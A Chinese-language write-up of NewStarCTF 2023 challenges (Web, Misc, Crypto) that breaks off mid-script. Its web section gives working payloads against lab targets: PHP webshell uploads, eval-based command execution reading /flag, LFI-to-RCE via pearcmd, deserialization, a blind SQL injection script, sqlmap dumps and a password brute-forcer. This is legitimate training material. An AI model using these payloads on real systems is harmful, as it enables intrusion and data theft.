









# NewStarCTF 2023

## Web

### \[Week 1]泄漏的秘密

通过使用 dirsearch 扫描可以得到两个文件可访问 `robots.txt` 和 `www.zip` 。

robots.txt 内容如下

```
PART ONE: flag{r0bots_1s_s0_us3ful
```

www.zip/index.php 内容如下

```php
<?php
$PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
echo "<h1>粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！</h1>";
```

即可得到 flag 如下

```
flag{r0bots_1s_s0_us3ful_4nd_www.zip_1s_s0_d4ng3rous}
```

### \[Week 1]Begin of Upload

通过查看源代码可以发现使用的是前端过滤，通过在浏览器中禁止 JavaScript 后即可直接上传 shell 文件。

<figure><figcaption></figcaption></figure>

通过蚁剑一把梭即可得到 flag（文件在 /fllll4g）。

```
flag{1b60e33c-182d-4a44-901a-549b43a7a66e}
```

### \[Week 1]Begin of HTTP

#### **0x00 GET**

```
请使用 GET方式 来给 ctf 参数传入任意值来通过这关
```

通过 param 传入 ctf 参数即可，如下

```
http://node4.buuoj.cn:29844/?ctf=123
```

#### **0x01 POST**

```
很棒，如果我还想让你以POST方式来给我传递 secret 参数你又该如何处理呢？ 
如果你传入的参数值并不是我想要的secret，我也不会放你过关的 或许你可以找一找我把secret藏在了哪里
```

查看源代码可以发现

```html
<!-- Secret: base64_decode(bjN3c3Q0ckNURjIwMjNnMDAwMDBk) -->
```

通过 base64 解密可以得到 Secret 值为 `n3wst4rCTF2023g00000d` ，通过 body 传入即可。

```
secret=n3wst4rCTF2023g00000d
```

#### **0x02 Cookie**

```
很强，现在我需要验证你的 power 是否是 ctfer ，只有ctfer可以通过这关
```

通过设置 Cookie 如下

```http
Cookie: power=ctfer
```

#### **0x03 User-Agent**

```
你已经完成了本题过半的关卡，现在请使用 NewStarCTF2023浏览器 来通过这关！
```

通过设置 User-Agent 如下

```http
User-Agent: NewStarCTF2023
```

#### **0x04 Referer**

```
希望你是从 newstarctf.com 访问到这个关卡的
```

通过设置 Referer 如下

```http
Referer: newstarctf.com
```

#### **0x05 X-Real-Ip**

```
最后一关了！只有 本地用户 可以通过这一关
```

通过设置 X-Real-Ip 如下

```http
X-Real-Ip: 127.0.0.1
```

就可以得到 flag 了。

### \[Week 1]ErrorFlask

通过题目得知需要从 Flask 中的报错中寻找答案，网页回显如下

```
give me number1 and number2,i will help you to add
```

通过输入字符串类型的值即可得到报错，Payload 如下

```
?number1=a&number2=b
```

得到回显后点击 `return "not ssti,flag in source code~"+str(int(num1)+int(num2))` 即可得到 flag ，不方便复制可以 F12 来复制。

```php
flag = "flag{Y0u_@re_3enset1ve_4bout_deb8g}"
```

### \[Week 1]Begin of PHP

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if(isset($_GET['key1']) && isset($_GET['key2'])){
    echo "=Level 1=<br>";
    if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){
        $flag1 = True;
    }else{
        die("nope,this is level 1");
    }
}

if($flag1){
    echo "=Level 2=<br>";
    if(isset($_POST['key3'])){
        if(md5($_POST['key3']) === sha1($_POST['key3'])){
            $flag2 = True;
        }
    }else{
        die("nope,this is level 2");
    }
}

if($flag2){
    echo "=Level 3=<br>";
    if(isset($_GET['key4'])){
        if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){
            $flag3 = True;
        }else{
            die("nope,this is level 3");
        }
    }
}

if($flag3){
    echo "=Level 4=<br>";
    if(isset($_GET['key5'])){
        if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){
            $flag4 = True;
        }else{
            die("nope,this is level 4");
        }
    }
}

if($flag4){
    echo "=Level 5=<br>";
    extract($_POST);
    foreach($_POST as $var){
        if(preg_match("/[a-zA-Z0-9]/",$var)){
            die("nope,this is level 5");
        }
    }
    if($flag5){
        echo file_get_contents("/flag");
    }else{
        die("nope,this is level 5");
    }
}
```

#### **0x00 Level 1**

md5 绕过，可以通过数组进行绕过，Payload 如下

```
key1[]=1&key2[]=2
```

#### **0x01 Level 2**

md5 === sha1 绕过，同样可以通过数组进行绕过，Payload 如下（Level 5 中不允许 POST 的值出现任何数字或字母）

```
key3[]=@
```

#### **0x02 Level 3**

strcmp 函数绕过，同样可以通过数组进行绕过，Payload 如下

```
key1[]=1&key2[]=2&key4[]=4
```

#### **0x03 Level 4**

is\_numeric 函数绕过，将 key5 设置为 2024a(任意字符) 即可，Payload 如下

```
key1[]=1&key2[]=2&key4[]=4&key5=2024a
```

#### **0x04 Level 5**

`extract($_POST);` 函数相当于 `$name = $_POST['name']` 。

通过发现缺少了 flag5 变量，说明就需要通过以上方法来造出 flag5，又因为 POST 的值出现任何数字或字母，根据在 PHP 中，只要字符串不为空即为 `True` 的特性，故 Payload 如下

```
key3[]=@&flag5=@
```

即可得到 flag。

### \[Week 1]R!C!E!

```php
<?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
}
```

本题需要知道 GET 或 POST 变量名中的非法字符会转化下划线，即 `$_POST['e_v.a.l']` 需要通过 `e[.v.a.l` 来传入。

并且题目中还存在一个 password，该参数会进行 md5 加密并对比前 6 位需要与 `c4d038` 一致，可以通过写脚本进行爆破。

```python
import hashlib

for i in range(0, 99999999):
    if hashlib.md5(str(i).encode(encoding='utf-8')).hexdigest()[:6] == "c4d038":
        print(i)
        break
        
# 114514
```

题目还对部分常见的恶意函数进行了过滤，但是可以通过 反引号 来执行 shell 命令，也可以通过 反斜杠 来进行绕过，Payload 如下

```
password=114514&e[v.a.l=echo `l\s /`;
```

可以得到回显如下

```
bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
```

构造 Payload 如下即可得到 flag

```
password=114514&e[v.a.l=echo `tac /fl\ag`;
```

### \[Week 1]EasyLogin

随意注册一个账号后登录会进入终端，但在 BurpSuite 中可以发现还有一个特别的请求如下

```http
POST /passport/f9e41a08a6eb869b894f509c4108adcf2213667fe2059d896886c5943156c7bc.php
```

该请求的回显如下

```html
<!-- 恭喜你找到flag -->
<!-- flag 为下方链接中视频简介第7行开始至第10行的全部小写字母和数字 -->
<!-- https://b23.tv/BV1SD4y1J7uY -->
<!-- 庆祝一下吧！ -->
```

很显然，点进去一看是个诈骗 flag，继续研究终端的 JavaScript 源码发现这个终端是个虚假的终端，但在其中还能发现一个 `admin` 账号，并且存在一个提示 `Maybe you need BurpSuite.` ，看来用 bp 这方向没错，那就开始爆破寻找 `admin` 账号的密码。

<figure><figcaption></figcaption></figure>

从图中已知输入的密码会进行 md5 加密，通过编写 Python 脚本进行爆破，我这里爆破用的是 rockyou.txt ，可以在 Kali 中找到。

```python
import requests

with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1') as file:
    for line in file:
        line = line.strip()
        data = {"un": "admin", "pw": f"{hashlib.md5(str(line).encode(encoding='utf-8')).hexdigest()}", "rem": "0"}
        ret = requests.post('http://node4.buuoj.cn:25956/signin.php', data=data)
        if 'div class="alert alert-success show' in ret.text:
            print(line)
            break
            
# 000000 
```

通过将得到的密码手动再进行一次登录操作，就可以得到 flag 了。

<figure><figcaption></figcaption></figure>

### \[Week 2]include 0。0

```
file=php://filter/read=convert.%2562ase64-encode/resource=flag.php
```

### \[Week 2]Unserialize？

```
unser=O:4:"evil":1:{s:3:"cmd";s:35:"c\at /th1s_1s_fffflllll4444aaaggggg";}
```

### \[Week 2]Upload again!

#### .htaccess 绕过、`<?` 绕过

```htaccess
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

### \[Week 2]R!!C!!E!!

```http
/bo0g1pop.php?star=eval(array_rand(array_flip(getallheaders())));
User-Agent: system("cat /flag");
```

### \[Week 2]游戏高手

进入 Console

```javascript
gameScore=999999999999999
```

运行玩游戏直接白给就可以得到 flag 了。

### \[Week 2]ez\_sql

```shell
$ python sqlmap.py -u http://ba57bf2c-be27-41e7-b824-792bf7347c7f.node4.buuoj.cn:81/?id=TMP0919 -D ctf --tables --dump-all
```

可以爆破数据库名字为 `ctf` ，表名 `here_is_flag` ，字段名 `flag` ，以及 flag。

### \[Week 3]Include 🍐

这题考察的是 LFI to RCE。

打开页面源代码如下

```php
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

通过构造 payload 如下

```
file=phpinfo
```

可以发现 env 存在属性 FLAG 值为 `fake{Check_register_argc_argv}` ，通过查看属性 register\_argc\_argv 可以发现值为 `On` 。

> https://cloud.tencent.com/developer/article/2204400

register\_argc\_argv 告诉PHP是否声明了 `argv` 和 `argc` 变量，这些变量可以是 POST 信息、也可以是 GET 信息，设置为 TRUE 时，能够通过 CLI SAPI 持续读取 argc 变量（传递给应用程序的若干参数）和 argv 变量（实际参数的数组），当我们使用 CLI SAPI 时，PHP变量 argc 和 argv 会自动填充为合适的值，并且可以在SERVER数组中找到这些值，比如 $\_SERVER\['argv'] 。

当构造 payload `a=a+b+c` 的时候，可以通过 `var_dump($_SERVER['argv']);` 输出 `array(1){[0]=>string(3)"a=a" [1]=>string(1)"b" [2]=>string(1)"c"}` ，即通过 `+` 作为分割符。

通过构造 payload 如下

```
file=/usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST[1])?>+./1.php
```

可以得到回显如下

```
Successfully created default configuration file "/var/www/html/1.php"
```

通过访问 `1.php` ，并构造 payload 如下即可得到 flag。

```
1=system("cat /flag");
```

### \[Week3]medium\_sql

根据题目描述可以得出需要进行一些绕过，先查看那些关键词被过滤了。

过滤关键词：union、# ，发现回显只有 `id not exists` 还有 ID 正确时的输出，故尝试布尔注入，经测试 `select、or、where、ascii` 需要进行大小写绕过。

```python
import requests
import time

target = "http://c14df6c5-9f87-4cfa-bd7a-9dd3bca93bf4.node4.buuoj.cn:81/"


def getDataBase():  # 获取数据库名
    database_name = ""
    for i in range(1, 1000):  # 注意是从1开始，substr函数从第一个字符开始截取
        low = 32
        high = 127
        mid = (low + high) // 2
        while low < high:  # 二分法
            params = {
                "id": "TMP0919' And (Ascii(suBstr((sElect(database()))," + str(i) + ",1))>" + str(mid) + ")%23"
            }
            time.sleep(0.1)
            r = requests.get(url=target+'?id='+params["id"])
            if "Physics" in r.text:  # 为真时说明该字符在ascii表后面一半
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if low <= 32 or high >= 127:
            break
        database_name += chr(mid)  # 将ascii码转换为字符
        print(database_name)
    return "数据库名：" + database_name


def getTable():  # 获取表名
    column_name = ""
    for i in range(1, 1000):
        low = 32
        high = 127
        mid = (low + high) // 2
        while low < high:
            params = {
                "id": "TMP0919' And (Ascii(suBstr((sElect(group_concat(table_name))from(infOrmation_schema.tables)wHere(table_schema='ctf'))," + str(
                    i) + ",1))>" + str(mid) + ")%23"
            }
            time.sleep(0.1)
            r = requests.get(url=target + '?id=' + params["id"])
            if "Physics" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if low <= 32 or high >= 127:
            break
        column_name += chr(mid)
        print(column_name)
    return "表名为：" + column_name


def getColumn():  # 获取列名
    column_name = ""
    for i in range(1, 250):
        low = 32
        high = 127
        mid = (low + high) // 2
        while low < high:
            params = {
                "id": "TMP0919' And (Ascii(suBstr((sElect(group_concat(column_name))from(infOrmation_schema.columns)wHere(table_name='here_is_flag'))," + str(
                    i) + ",1))>" + str(mid) + ")%23"
            }
            time.sleep(0.1)
            r = requests.get(url=target + '?id=' + params["id"])
            if 'Physics' in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if low <= 32 or high >= 127:
            break
        column_name += chr(mid)
        print(column_name)
    return "列名为：" + column_name


def getFlag():  # 获取flag
    flag = ""
    for i in range(1, 1000):
        low = 32
        high = 127
        mid = (low + high) // 2
        while low < high:
            params = {
                "id": "TMP0919' And (Ascii(suBstr((sElect(group_concat(flag))from(here_is_flag))," + str(i) + ",1))>" + str(mid) + ")%23"
            }
            time.sleep(0.1)
            r = requests.get(url=target + '?id=' + params["id"])
            if 'Physics' in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if low <= 32 or high >= 127:
            break
        flag += chr(mid)
        print(flag)
    return "flag:" + flag


a = getDataBase()
b = getTable()
c = getColumn()
d = getFlag()
print(a)
print(b)
print(c)
print(d)
```

## Misc

### \[Week 1]CyberChef's Secret

```
来签到吧！下面这个就是flag，不过它看起来好像怪怪的:-)
M5YHEUTEKFBW6YJWKZGU44CXIEYUWMLSNJLTOZCXIJTWCZD2IZRVG4TJPBSGGWBWHFMXQTDFJNXDQTA=
```

CyberChef 一把梭，flag 如下


```
flag{Base_15_S0_Easy_^_^}
```

### \[Week 1]机密图片

通过 zteg 可以得到 flag。

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ zsteg secret.png
b1,r,lsb,xy         .. text: ":=z^rzwPQb"
b1,g,lsb,xy         .. file: OpenPGP Public Key
b1,b,lsb,xy         .. file: OpenPGP Secret Key
b1,rgb,lsb,xy       .. text: "flag{W3lc0m3_t0_N3wSt4RCTF_2023_7cda3ece}"
b3,b,lsb,xy         .. file: very old 16-bit-int big-endian archive
b4,bgr,msb,xy       .. file: MPEG ADTS, layer I, v2, 112 kbps, 24 kHz, JntStereo
```

### \[Week 1]流量！鲨鱼！

用 WireShark 打开后在过滤器中输入 `http.response.code==200` 可以得到所有成功访问的 http 请求。

通过一个一个看可以发现一个特殊的请求，如下图

<figure><figcaption></figcaption></figure>

可以发现这是请求 flag 并且将 flag 以 base64 编码的形态输出，通过将值进行 base64 解码即可得到 flag。

```
flag{Wri35h4rk_1s_u53ful_b72a609537e6}
```

### \[Week 1]压缩包们

通过 binwalk 可以知道这是个 zip 压缩包，用 010 打开后发现缺少了文件头，需要进行修改，如下图。

<figure><figcaption></figcaption></figure>

修改后将后缀名修改为 zip ，解压得到 flag.zip 但打开压缩包会提示压缩包数据错误 - 该文件已损坏，再看看全局方式位标记是否有错。

> [https://mp.weixin.qq.com/s?\_\_biz=MzAwNDcwMDgzMA==\&mid=2651042332\&idx=7\&sn=ff5bb33bb0f49470a9140976d9ced3fa](https://mp.weixin.qq.com/s?\_\_biz=MzAwNDcwMDgzMA==\&mid=2651042332\&idx=7\&sn=ff5bb33bb0f49470a9140976d9ced3fa)

通过 010 可以看到压缩源文件数据的全局方式位标记为 `09 00` ，压缩源文件目录区的全局方式位标记 `00 00` ，将压缩源文件目录区的全局方式位标记也修改为 `09 00` 再打开压缩包发现压缩包正常了。

在压缩包注释中存在一串 base64 编码内容如下

```
SSBsaWtlIHNpeC1kaWdpdCBudW1iZXJzIGJlY2F1c2UgdGhleSBhcmUgdmVyeSBjb25jaXNlIGFuZCBlYXN5IHRvIHJlbWVtYmVyLg==
```

解码内容如下

```
I like six-digit numbers because they are very concise and easy to remember.
```

说明密码应该为 6 个数字，用 ARCHPR 进行爆破即可得到密码为 `232311` ，解压后即可得到 flag

```
flag{y0u_ar3_the_m4ter_of_z1111ppp_606a4adc}
```

### \[Week 1]空白格

```
   		  		 
	
     		 		  
	
     		    	
	
     		  			
	
     				 		
	
     			 			
	
     		  		
	
     	 					
	
     		 	   
	
     		 	  
	
     			 		 
	
     		  		
	
     	 					
	
     			 	  
	
     		 				
	
     		    
	
     	 					
	
     		 		 	
	
     		 	  
	
     		 			 
	
     				  	
	
     	 					
	
     			 			
	
     		 	   
	
     		   	
	
     			 	  
	
     		  		
	
     	 					
	
     			  		
	
     			    
	
     		 	  
	
     		   		
	
     		  	 	
	
     	 					
	
     		  	 
	
     		    	
	
     		 	 	
	
     		   	 
	
     		 	  
	
     		  	 	
	
     		    
	
     		 	  
	
     					 	
	
  
```

使用 VSCode 打开可以发现这是由 `换行符` 、`制表符` 和 `空格` 组成的内容，通过百度发现是 whitespace 语言。

> https://www.w3cschool.cn/tryrun/runcode?lang=whitespace

通过在线工具即可得到 flag 如下

```
flag{w3_h4v3_to0_m4ny_wh1t3_sp4ce_2a5b4e04}
```

### \[Week 1]隐秘的眼睛

使用 SilentEye 进行 Decode 即可得到 flag，密钥用的是默认的。

<figure><figcaption></figcaption></figure>

```
flag{R0ck1ng_y0u_63b0dc13a591}
```

### \[Week 2]新建Word文档

http://hi.pcmoe.net/buddha.html

## Crypto

### \[Week 1]brainfuck

密文如下

```
++++++++[>>++>++++>++++++>++++++++>++++++++++>++++++++++++>++++++++++++++>++++++++++++++++>++++++++++++++++++>++++++++++++++++++++>++++++++++++++++++++++>++++++++++++++++++++++++>++++++++++++++++++++++++++>++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++<<<<<<<<<<<<<<<<-]>>>>>>>++++++.>----.<-----.>-----.>-----.<<<-.>>++..<.>.++++++.....------.<.>.<<<<<+++.>>>>+.<<<+++++++.>>>+.<<<-------.>>>-.<<<+.+++++++.--..>>>>---.-.<<<<-.+++.>>>>.<<<<-------.+.>>>>>++.
```

> https://www.splitbrain.org/services/ook

```
flag{Oiiaioooooiai#b7c0b1866fe58e12}
```

### \[Week 1]Caesar's Secert

密文如下

```
kqfl{hf3x4w'x_h1umjw_n5_a4wd_3fed}
```

> https://www.dcode.fr/caesar-cipher

```
flag{ca3s4r's_c1pher_i5_v4ry_3azy}
```

### \[Week 1]Fence

密文如下

```
fa{ereigtepanet6680}lgrodrn_h_litx#8fc3
```

栅栏密码，使用 CyberChef 可以解出来

```
#recipe=Rail_Fence_Cipher_Decode(2,0)&input=ZmF7ZXJlaWd0ZXBhbmV0NjY4MH1sZ3JvZHJuX2hfbGl0eCM4ZmMz
```

```
flag{reordering_the_plaintext#686f8c03}
```

### \[Week 1]Vigenère

密文如下

```
pqcq{qc_m1kt4_njn_5slp0b_lkyacx_gcdy1ud4_g3nv5x0}
```

> https://www.dcode.fr/vigenere-cipher

维吉尼亚密码解密，将密文丢进上述链接中，并设置

```
Knowing a plaintext word: flag{
```

可以发现当 Key 前三位为 `KFC` 时存在 `flag{` ，故尝试让 Key 就等于 `KFC` ，发现就是 flag。

```
flag{la_c1fr4_del_5ign0r_giovan_batt1st4_b3ll5s0}
```

### \[Week 1]babyencoding

密文如下

```
part 1 of flag: ZmxhZ3tkYXp6bGluZ19lbmNvZGluZyM0ZTBhZDQ=
part 2 of flag: MYYGGYJQHBSDCZJRMQYGMMJQMMYGGN3BMZSTIMRSMZSWCNY=
part 3 of flag: =8S4U,3DR8SDY,C`S-F5F-C(S,S<R-C`Q9F8S87T`
```

前两个用 CyberChef 可以一把梭，结果如下。

```
part 1 of flag: flag{dazzling_encoding#4e0ad4
part 2 of flag: f0ca08d1e1d0f10c0c7afe422fea7
```

第三部分使用的是 UUEncode 编码

> http://www.atoolbox.net/Tool.php?Id=731

解密后可以得到第三部分

```
part 3 of flag: c55192c992036ef623372601ff3a}
```

### \[Week 1]Small d

> https://github.com/pablocelayes/rsa-wiener-attack

题目中的 e 很大，说明 d 就会很小，通过 Wiener 攻击来解出 d。

```python
from Crypto.Util.number import long_to_bytes
from RSAwienerHacker import hack_RSA
e = 8614531087131806536072176126608505396485998912193090420094510792595101158240453985055053653848556325011409922394711124558383619830290017950912353027270400567568622816245822324422993074690183971093882640779808546479195604743230137113293752897968332220989640710311998150108315298333817030634179487075421403617790823560886688860928133117536724977888683732478708628314857313700596522339509581915323452695136877802816003353853220986492007970183551041303875958750496892867954477510966708935358534322867404860267180294538231734184176727805289746004999969923736528783436876728104351783351879340959568183101515294393048651825
n = 19873634983456087520110552277450497529248494581902299327237268030756398057752510103012336452522030173329321726779935832106030157682672262548076895370443461558851584951681093787821035488952691034250115440441807557595256984719995983158595843451037546929918777883675020571945533922321514120075488490479009468943286990002735169371404973284096869826357659027627815888558391520276866122370551115223282637855894202170474955274129276356625364663165723431215981184996513023372433862053624792195361271141451880123090158644095287045862204954829998614717677163841391272754122687961264723993880239407106030370047794145123292991433
c = 6755916696778185952300108824880341673727005249517850628424982499865744864158808968764135637141068930913626093598728925195859592078242679206690525678584698906782028671968557701271591419982370839581872779561897896707128815668722609285484978303216863236997021197576337940204757331749701872808443246927772977500576853559531421931943600185923610329322219591977644573509755483679059951426686170296018798771243136530651597181988040668586240449099412301454312937065604961224359235038190145852108473520413909014198600434679037524165523422401364208450631557380207996597981309168360160658308982745545442756884931141501387954248
d = hack_RSA(e, n)
print(d)
m = pow(c, d, n)
print(long_to_bytes(m))
```

### \[Week 1]babyrsa

> 题目描述：很容易分解的n
>
> http://factordb.com/

题目描述中给出 hint ，通过 factordb 分解 n ，可以得到以下数组。

```python
array_p = [2217990919, 2338725373, 2370292207, 2463878387, 2706073949, 2794985117, 2804303069, 2923072267, 2970591037, 3207148519, 3654864131, 3831680819, 3939901243, 4093178561, 4278428893]
```

分解所得均为素数，通过计算出 phi 即可得出结果。

```python
import gmpy2
from Crypto.Util.number import long_to_bytes, isPrime

n = 17290066070594979571009663381214201320459569851358502368651245514213538229969915658064992558167323586895088933922835353804055772638980251328261
e = 65537
c = 14322038433761655404678393568158537849783589481463521075694802654611048898878605144663750410655734675423328256213114422929994037240752995363595

array_p = [2217990919, 2338725373, 2370292207, 2463878387, 2706073949, 2794985117, 2804303069, 2923072267, 2970591037, 3207148519, 3654864131, 3831680819, 3939901243, 4093178561, 4278428893]

phi = 1
for p in array_p:
    if isPrime(p):
        phi *= (p - 1)
    else:
        exit(1)
d = gmpy2.invert(e, phi)
m = pow(c, d, n)
print(long_to_bytes(m))
```

### \[Week 1]babyxor

```python
from secret import *

ciphertext = []

for f in flag:
    ciphertext.append(f ^ key)

print(bytes(ciphertext).hex())
# e9e3eee8f4f7bffdd0bebad0fcf6e2e2bcfbfdf6d0eee1ebd0eabbf5f6aeaeaeaeaeaef2
```

知道明文前五位为 `flag{` ，通过异或密文前五位来得出 `key` ，python 脚本如下

```python
ciphertext_hex = "e9e3eee8f4f7bffdd0bebad0fcf6e2e2bcfbfdf6d0eee1ebd0eabbf5f6aeaeaeaeaeaef2"
ciphertext = bytes.fromhex(ciphertext_hex)
known_plaintext = b"flag{"
